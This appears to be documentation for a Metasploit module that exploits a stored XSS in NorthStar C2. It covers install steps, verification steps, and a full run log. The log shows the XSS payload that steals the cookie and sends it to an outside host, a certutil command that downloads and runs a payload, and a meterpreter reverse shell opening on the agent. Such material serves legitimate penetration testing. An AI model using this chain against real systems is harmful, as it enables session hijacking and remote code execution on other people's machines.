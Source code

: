 ## Vulnerable Application

NorthStar C2, prior to commit `7674a44` on March 11 2024, contains a vulnerability where the logs page is
vulnerable to a stored xss.
An unauthenticated user can simulate an agent registration to cause the XSS and take over a users session.
With this access, it is then possible to run a new payload on all of the NorthStar C2 compromised hosts
(agents), and kill the original agent.

Successfully tested against NorthStar C2 commit `e7fdce148b6a81516e8aa5e5e037acd082611f73` running on
Ubuntu 22.04. The agent was running on Windows 10 19045.

```mermaid
flowchart TD
    A(fa:fa-computer Metasploit)
    B(fa:fa-server NorthStar C2)
    C(fa:fa-person Northstar C2 User)
    D(fa:fa-bug Agent)
    A -->|1. Upload XSS| B
    B -...-> C
    C -->|2. Visit XSS Page| B
    C -->|3. Send cookie| A
    A -->|4. Using Cookie, takeover agents| B
    D -->|5. Fetch and run payload, kill agent| A
    D -...-> B
    B -...-> D
```

### Install NorthStar C2

Instructions for Ubuntu 22.04

```
sudo apt-get update
sudo apt-get install -y software-properties-common git wget mysql-server
sudo add-apt-repository ppa:ondrej/php
sudo apt-get update
sudo service mysql start
git clone https://github.com/EnginDemirbilek/NorthStarC2.git
cd NorthStarC2
git checkout e7fdce148b6a81516e8aa5e5e037acd082611f73
chmod +x install.sh
sudo ./install.sh # mysql answers: root:<empty>, make sure to give a website username/password
sudo apt-get purge -y php
sudo apt autoremove -y
sudo apt-get install -y php7.2 libapache2-mod-php7.2 php7.2-mysql
sudo a2dismod php*
sudo a2enmod php7.2
sudo service apache2 restart
```

### Agent Install

This should be done on a Windows computer:

On the c2 payload, you'll want to edit `Program.cs` on line 13 and edit `mainUri` to your northstar IP.
Now run the program, or compile and run it, and ensure the agent is active on the NorthStar C2 website.

## Verification Steps

1. Install the application, and connect an agent
1. Start msfconsole
1. Do: `use exploit/windows/http/northstar_c2_xss_to_agent_rce`
1. Do: `set rhosts [ip]`
1. Do: `set srvhost [srvhost]`
1. Do: `set fetch_srvport [fetch_srvport]`
1. Do: `set fetch_srvhost [fetch_srvhost]`
1. Do: `run`
1. Do: visit the NorthStarC2 site with a logged in user, and browse to the Server Logs page.
1. You should get a shell on each agent.

## Options

### KILL

If the NorthStarC2 agent should be explicitly killed on each compromised host. Defaults to `false`

## Scenarios

### NorthStar C2 commit e7fdce148b6a81516e8aa5e5e037acd082611f73 on Ubuntu 22.04 with an agent on Windows 10

```
resource (northstar.rq)> use exploit/windows/http/northstar_c2_xss_to_agent_rce
[*] No payload configured, defaulting to cmd/windows/http/x64/meterpreter/reverse_tcp
resource (northstar.rq)> set rhosts 4.4.4.4
rhosts => 4.4.4.4
resource (northstar.rq)> set srvhost 3.3.3.3
srvhost => 3.3.3.3
resource (northstar.rq)> set verbose true
verbose => true
resource (northstar.rq)> set FETCH_SRVPORT 9090
FETCH_SRVPORT => 9090
resource (northstar.rq)> set FETCH_srvhost 3.3.3.3
FETCH_srvhost => 3.3.3.3
msf6 exploit(windows/http/northstar_c2_xss_to_agent_rce) > exploit
[*] Command to run on remote host: certutil -urlcache -f http://3.3.3.3:9090/p3icRkNmQwbsIs7RYzV5sA %TEMP%\tKvCAnUBZgfn.exe & start /B %TEMP%\tKvCAnUBZgfn.exe
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf6 exploit(windows/http/northstar_c2_xss_to_agent_rce) >
[*] Fetch handler listening on 3.3.3.3:9090
[*] HTTP server started
[*] Adding resource /p3icRkNmQwbsIs7RYzV5sA
[*] Started reverse TCP handler on 3.3.3.3:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated. NorthStar Login page detected
[*] Sending XSS
[*] Sending: N*/</script><q
[*] Sending: N*/i.src=u/*q
[*] Sending: N*/new Image;/*q
[*] Sending: N*/var i=/*q
[*] Sending: N*/s+h+p+'/'+c;/*q
[*] Sending: N*/var u=/*q
[*] Sending: N*/'http://';/*q
[*] Sending: N*/var s=/*q
[*] Sending: N*/':8080';/*q
[*] Sending: N*/var p=/*q
[*] Sending: N*/a+b;/*q
[*] Sending: N*/var h=/*q
[*] Sending: N*/'.10.147';/*q
[*] Sending: N*/var b=/*q
[*] Sending: N*/'192.168';/*q
[*] Sending: N*/var a=/*q
[*] Sending: N*/d.cookie;/*q
[*] Sending: N*/var c=/*q
[*] Sending: N*/document;/*q
[*] Sending: N*/var d=/*q
[*] Sending: N</td><script>/*q
[*] Waiting on XSS execution
[*] Using URL: http://3.3.3.3:8080/
[*] Server started.
```

Now visit the site with a logged in user, and browse to the Server Logs page.

```
[*] 1.1.1.1    northstar_c2_xss_to_agent_rce - Received GET request.
[+] 1.1.1.1    northstar_c2_xss_to_agent_rce - Received cookie: st0sfhqto9mqtpd81rlg6hq5g5
[+] 1.1.1.1    northstar_c2_xss_to_agent_rce - Live Agents
===========
 ID                   IP              OS                      Username                Hostname         Status
 --                   --              --                      --------                --------         ------
 NC1S7X834eJVcJtynrq  222.222.22.222  Windows 10 Enterprise   DESKTOP-Q0HUOEI\h00die  DESKTOP-Q0HUOEI  Online
[+] 1.1.1.1    northstar_c2_xss_to_agent_rce - CSRF Token: 38b4d324e8cd233b7a94c62e7b3c5556
[*] 1.1.1.1    northstar_c2_xss_to_agent_rce - (NC1S7X834eJVcJtynrq) Stealing DESKTOP-Q0HUOEI
[*] 1.1.1.1    northstar_c2_xss_to_agent_rce -   (NC1S7X834eJVcJtynrq) Enabling shell mode
[+] 1.1.1.1    northstar_c2_xss_to_agent_rce -     Command sent successfully to agent NC1S7X834eJVcJtynrq, response: Cmd mode enabled, all commands will be redirect to CMD. Response delay is : 2000 miliseconds
[*] 1.1.1.1    northstar_c2_xss_to_agent_rce -   (NC1S7X834eJVcJtynrq) Running payload
[*] Client 222.222.22.222 requested /p3icRkNmQwbsIs7RYzV5sA
[*] Sending payload to 222.222.22.222 (Microsoft-CryptoAPI/10.0)
[*] Client 222.222.22.222 requested /p3icRkNmQwbsIs7RYzV5sA
[*] Sending payload to 222.222.22.222 (CertUtil URL Agent)
[*] Sending stage (201798 bytes) to 222.222.22.222
[*] Meterpreter session 1 opened (3.3.3.3:4444 -> 222.222.22.222:50116) at 2024-04-10 14:40:31 +0000
msf6 exploit(windows/http/northstar_c2_xss_to_agent_rce) > sessions -i 1
[*] Starting interaction with 1...
meterpreter > sysinfo
Computer        : DESKTOP-Q0HUOEI
OS              : Windows 10 (10.0 Build 19045).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/window
```
